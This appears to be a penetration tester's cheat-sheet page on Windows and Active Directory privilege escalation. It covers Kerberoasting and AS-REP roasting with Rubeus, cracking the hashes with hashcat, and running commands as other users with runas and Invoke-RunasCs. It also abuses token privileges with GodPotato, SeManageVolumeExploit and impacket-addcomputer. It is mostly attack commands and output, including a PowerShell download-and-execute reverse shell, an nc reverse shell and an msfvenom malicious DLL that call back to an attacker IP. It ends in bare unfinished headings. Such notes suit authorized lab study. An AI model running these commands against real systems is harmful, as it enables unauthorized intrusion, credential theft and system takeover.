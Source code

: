 # Escalating Privilege

## Abusing Active Directory Authentication

Sometimes a way of escalating privileges is by moving laterally. We can take advantage of the same techniques and tools we would use for moving laterally to escalate our privileges.

### Kerberoasting with Rubeus

{% embed url="https://github.com/GhostPack/Rubeus" %}

If Rubeus is not installed we'll have to switch to our Windows dev box and compile via VIsual Studio. We can transfer the binary back to our Kali host then to our victim.

```powershell
PS C:\Tools> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : corp.com
[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : iis_service
[*] DistinguishedName      : CN=iis_service,CN=Users,DC=corp,DC=com
[*] ServicePrincipalName   : HTTP/web04.corp.com:80
[*] PwdLastSet             : 9/7/2022 5:38:43 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Tools\hashes.kerberoast
```

### Cracking with Hashcat

```shell-session
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
```



### AS-REP Roasting with Rubeus

```powershell
PS C:\Users\Public> .\Rubeus asreproast /nowrap
.\Rubeus asreproast /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0 


[*] Action: AS-REP roasting

[*] Target Domain          : relia.com

[*] Searching path 'LDAP://DC02.relia.com/DC=relia,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : michelle
[*] DistinguishedName      : CN=Michelle Smith,CN=Users,DC=relia,DC=com
[*] Using domain controller: DC02.relia.com (172.16.103.6)
[*] Building AS-REQ (w/o preauth) for: 'relia.com\michelle'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$michelle@relia.com:0C5BDBDC
```

### Cracking with Hashcat

```bash
kali@kali sudo hashcat -m 18200 michelle.asrep /usr/share/wordlists/rockyou.txt --force
```

## Checking Groups - net user&#x20;

Another way we can check groups a user belongs to is using `net user`

```powershell
PS C:\Users\tony> net user tony
User name                    tony
Full Name                    Nothing Stops
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/16/2023 1:57:34 PM
Password expires             Never
Password changeable          6/16/2023 1:57:34 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
```

## Runas Command

If we've gained access to a plaintext password, it's possible to use the [`runas` ](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\))command to execute commands as that user.

```powershell
PS C:\Users\steve> runas /user:backupadmin cmd
Enter the password for backupadmin:
Attempting to start cmd as user "CLIENTWK220\backupadmin" ...
PS C:\Users\steve> 
```

## Invoke-Runas

If we've gained access to a plaintext password, but don't have a full shell, we can use the [`Invoke-Runas`](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1) command that's part of the[ `PowerShell-Suite`](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master). Here is an updated and new version.&#x20;

{% embed url="https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1" %}

```powershell
PS> import-module ./Invoke-RunasCs.ps1
PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"
```

### Spawn reverse shell

Powercat

```powershell
PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "Powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.49.211/powercat.ps1');powercat -c 192.168.49.211 -p 5555 -e cmd"
```



## Insecure Privileges

The first thing to do when popping a Windows shell is to check the user privileges.

```powershell
C:\Users\svc_mssql>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State   
============================= ================================ ========
SeMachineAccountPrivilege     Add workstations to domain       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Disabled

```

### SeImpersonatePrivilege

{% embed url="https://github.com/BeichenDream/GodPotato" %}

```powershell
.\GodPotato.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```

### SeManageVolumePrivilege

Running this exploit allows us RWX access to C:\ drive. We can create any PE or dll and execute it. To gain SYSTEM we can replace a dll with a malicious one.

{% embed url="https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public" %}

Run exploit

<pre class="language-powershell"><code class="lang-powershell"><strong>C:\Users\svc_mssql> .\SeManageVolumeExploit.exe
</strong></code></pre>

#### Create malicious dll & replace it in C:\Windows\System32\wbem\\

```shell-session
$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.49.211 LPORT=6666 -f dll -o tzres.dll
```

#### Execute systeminfo (triggering malcious dll). We get a SYSTEM shell back to our listener.

```powershell
PS> systeminfo
```



### SeMachineAccountPrivilege

This privilege allows us to create a machine account on the domain ($). We can use this machine account to impersonate another user and request a ticket-granting-ticket (Administrator).



#### create new computer account - impacket

```shell-session
impacket-addcomputer heist.offsec/enox -dc-ip 192.168.191.165 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!' 
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Successfully added machine account ATTACK$ with password AttackerPC1!.

```

####

SeDebugPrivilege

SeTakeOwnershipPrivilege
